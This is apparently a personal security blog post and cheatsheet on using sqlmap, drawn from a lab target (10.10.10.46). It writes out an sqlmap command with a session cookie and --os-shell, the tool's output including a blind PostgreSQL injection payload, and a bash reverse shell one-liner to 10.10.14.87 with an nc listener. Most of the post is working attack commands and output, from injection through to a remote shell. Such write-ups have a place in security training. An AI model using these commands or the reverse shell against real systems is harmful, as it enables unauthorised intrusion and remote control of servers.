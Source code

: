 ```yaml
---
title: "Tool: SQLMap"
date: 2021-01-02T02:34:30-04:00
categories:
  - Blog
  - Tool
tags:
  - shell
  - tool
  - commands
  - cheatsheet
  - SQL
  - sqlmap
---
```


This is the command string to test if a SQL backed web page is vulnerable to SQL injection:

Needs:
1. the injection field = '?search=1234' in the url
2. the session cookie = from inspecting the page - application tab - storage - cookie
3. the command extention = '--os-shell'

The Command:

'sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=k3ivqlrh8f7i68p3vis6pmjsal" --os-shell,

```yaml
──(kali㉿kali)-[~]
└─$ ──(kali㉿kali)-[~]
└─$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=k3ivqlrh8f7i68p3vis6pmjsal" --os-shell
        ___
       __H__                                                         
 ___ ___[']_____ ___ ___  {1.4.12#stable}                            
|_ -| . [(]     | .'| . |                                            
|___|_  [(]_|_|_|__,|  _|                                            
      |_|V...       |_|   http://sqlmap.org                          



[*] starting @ 20:42:21 /2021-01-01/

[20:42:21] [INFO] resuming back-end DBMS 'postgresql' 
[20:42:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (6996=6996) THEN NULL ELSE CAST((CHR(113)||CHR(83)||CHR(65)||CHR(77)) AS NUMERIC) END)) IS NULL-- IJNJ


os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.87/4321 0>&1'
do you want to retrieve the command standard output? [Y/n/a] 
```

You can use any OS command here:

ls
id
uname -a
whoami

in the example I passes in a net cat shell back to another terminal I had running a nc listener 'nc -nlvp 4321'

'bash -c 'bash -i >& /dev/tcp/10.10.14.87/4321 0>&1'

Note: the session was not stable but I was able to keep it open long enough to open another connection not bases on sqli


[SQLMap Cheat Sheet :][upgrade-term]

Sample:

Simple Usage
If you don’t know anything about the target site then use the normal command first, Observe if the sqlmap found something juicy for you

sqlmap -u “https://target_site.com/page/”
Automatic GET request parameter
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”


[upgrade-term]: https://thedarksource.com/sqlmap-cheat-sheet/
